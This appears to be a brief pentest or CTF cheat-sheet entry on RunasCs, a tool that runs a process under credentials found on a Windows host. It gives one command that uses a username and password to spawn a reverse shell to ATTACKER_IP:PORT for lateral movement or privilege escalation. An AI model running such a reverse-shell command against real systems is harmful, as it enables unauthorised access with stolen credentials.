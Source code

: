 # Runas

## Use case: 

### Use this when we have found credentials for a user, but we have no other methods to authenticate (Win-RM, etc). Essentialy, we inject the credentials found in memory to authenticate with these valid credentials.

## Github repo: https://github.com/antonioCoco/RunasCs/releases/tag/v1.5

### Command:

    .\RunasCs.exe USERNAME PASSWORD cmd.exe ATTACKER_IP:PORT (Execute a reverse shell as the authenticated user for lateral movement/privesc)
